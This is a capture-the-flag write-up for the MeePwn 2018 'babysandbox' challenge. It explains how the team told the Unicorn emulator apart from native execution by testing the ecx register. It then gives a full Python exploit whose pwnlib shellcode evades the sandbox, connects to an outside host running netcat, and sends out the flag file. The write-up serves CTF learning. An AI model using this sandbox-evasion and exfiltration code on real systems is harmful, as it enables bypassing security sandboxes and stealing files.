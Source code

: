 There are already some good writeups: https://ctftime.org/task/6287 We wanted
you to show a (what we think) short and elegant solution that also uses
`pwnlib.shellcraft` because we are lazy :) The main idea behind the solution
is that we wanted to find out, if we are running within unicorn or within the
native binary `bin`. The unicorn code in `app.py`
(https://github.com/ssspeedgit00/CTF/blob/master/2018/meepwn/babysandbox/app.py)
filters certian syscalls so that we cannot just write normal shellcode. If we
could pass the unicorn test and then execute arbitrary shellcode... this would
be nice :) With `gdb` you can break in `bin` at the `call eax` instruction and
"look around" how registers or the stack looks. unicorn cannot know how this
looks and thus cannot initialize all registers or prepare the stack and so on,
so that it would look like a native execution (unicorn does not know the `bin`
binary). Long story short: we had a look at the `ecx` register and saw with
`gdb` that it is set to `0x100`. So we wrote a little bit of assembler code
that tests for that value. If it is the same then we are executed natviely
(`bin`) otherwise we are running within unicorn. With `pwnlib.shellcraft` we
added some code that sends us the content of the file `flag` (which was a good
guess :) ) to a server that we have access to and that was running netcat in
listening mode. Here is the full solution:

```python  
#!/usr/bin/env python2

import base64

import requests  
from pwnlib.asm import asm, context  
from pwnlib import shellcraft

context.update(arch="i386", os="linux")

target_url = "http://178.128.100.75/exploit"

def get_payload():  
   return {  
       "payload": base64.b64encode(  
           asm(  
               "cmp ecx, 0x100\n" +  # if ecx == 0x100 we run in "bin" and NOT in unicorn (sandbox evasion)  
               "jnz loose\n" +  
               shellcraft.i386.linux.connect("1.2.3.4", 55555) +  # we ran a nc -l -p 55555 on a server  
               shellcraft.i386.linux.readfile("flag", "edx") +   # edx contains the socket descriptor from connect(),  
                                                                 # flag is a file (good guess)  
               "loose:\n" +  
               "nop"  # unicorn runs till the end of this code; there must not be any other code after the nop  
           )  
       ).decode()  
   }

def send_payload(payload):  
   return requests.post(  
       target_url,  
       json=payload,  
       # valid session cookie necessary... otherwise flask app will crash :/  
       cookies={"session": "eyJJU0JBRFNZU0NBTEwiOmZhbHNlfQ.DitWFg.q6JRhyuAEIZB64HNjRvCXyMY5EA"}  
   )

def main():  
   response = send_payload(get_payload())  
   print(response.content)

   # nc -l -p 55555 on the server prints:
MeePwnCTF{Unicorn_Engine_Is_So_Good_But_Not_Perfect}

if __name__ == "__main__":  
   main()

```

lolcads